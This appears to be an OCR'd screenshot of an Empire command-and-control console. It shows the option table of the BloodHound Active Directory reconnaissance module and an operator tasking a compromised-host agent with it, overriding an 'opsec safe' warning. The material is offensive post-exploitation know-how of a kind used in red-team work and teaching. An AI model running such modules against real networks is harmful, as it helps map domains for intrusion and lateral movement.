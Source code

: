 ```
                                                            queries through.                        
  ComputerADSpath     False                                 The LDAP source to search through for   
                                                            computers, e.g.                         
                                                            "LDAP://OU=secret,DC=testlab,DC=local"  
  SkipGCDeconfliction False                                 Switch. Skip global catalog enumeration 
                                                            for session deconfliction               
  Domain              False                                 The domain to use for the query,        
                                                            defaults to the current domain.         
  Agent               True        FD6A3MGY                  Agent to run module on.                 
  URI                 False                                 The BloodHound neo4j URL location       
                                                            (http://host:port/)                     
  GlobalCatalog       False                                 The global catalog location to resolve  
                                                            user memberships from.                  
  Threads             True        20                        The maximum concurrent threads to       
                                                            execute.                                
  CollectionMethod    True        Default                   The method to collect data. 'Group',    
                                                            'ComputerOnly', 'LocalGroup',           
                                                            'GPOLocalGroup', 'Session', 'LoggedOn', 
                                                            'Trusts, 'Stealth', or 'Default'.       
  Throttle            True        1000                      The number of cypher queries to queue up
                                                            for neo4j RESTful API ingestion.        
  UserPass            False                                 The "user:password" for the BloodHound  
                                                            neo4j instance                          
  SearchForest        False                                 Switch. Search all domains in the       
                                                            forest.                                 
  CSVFolder           False       $(Get-Location)           The CSV folder to use for output,       
                                                            defaults to the current folder location.
  CSVPrefix           False                                 A prefix for all CSV files.             

(Empire: powershell/situational_awareness/network/bloodhound) > execute
[>] Module is not opsec safe, run? [y/N] y
[*] Tasked FD6A3MGY to run TASK_CMD_JOB
[*] Agent FD6A3MGY tasked with task ID 16
[*] Tasked agent FD6A3MGY to run module powershell/situational_awareness/network/bloodhound
(Empire: powershell/situational_awareness/network/bloodhound) > Job started: ZPHYFE
```